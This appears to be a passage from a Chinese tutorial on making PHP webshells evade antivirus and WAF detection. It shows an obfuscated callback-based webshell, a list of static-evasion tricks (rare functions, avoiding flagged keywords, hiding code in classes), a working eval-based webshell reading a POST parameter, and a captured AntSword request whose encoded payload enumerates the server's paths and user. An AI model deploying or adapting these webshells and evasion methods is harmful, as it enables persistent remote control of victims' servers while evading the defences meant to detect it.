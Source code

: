 ```
        //array_uintersect_uassoc(array($_POST[k]),array(''),'assert','strstr');
        @$Hfdag(array($this->fHfoj),array(''),$fdJfd,'myfunction_key');
    }
}
$jfnp=new rtHjmCdS();
@$jfnp->fHfoj=$_REQUEST['css'];
?>
```

到这里静态免杀基本就介绍完了，总结一下：

-   使用冷门函数
-   尽量避免使用敏感关键字，可以用各种方式生成
-   将关键代码混淆在类、函数里

## 2\. 动态免杀

静态免杀相对来是很容易的，方法也多种多样，但是很显然不管怎么变化，最终都会回到一个最终的函数调用：

而现在的waf都会基于流量检测，我们的木马返回包和发送包都有明显的特征，这样的木马基本逃不过动态检测。

下面以蚁剑为例，看下怎么绕过流量的动态监测。

首先我们使用稍微混淆过的木马:

```
<?php
class  Test{
    public $name = '';
    function __destruct(){
        @eval("$this->name");
    }
}

$test= new Test();
$c = @$_POST['css'];
$test->name = $c;
?>
```

在蚁剑添加木马后，我们用burp来抓第一个请求包来看它发了什么内容：

```
POST /a.php HTTP/1.1
Host: 192.168.129.128:80
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 985
Connection: close

css=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22ae2ea%22%3Becho%20%40asenc(%24output)%3Becho%20%22348cb%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```
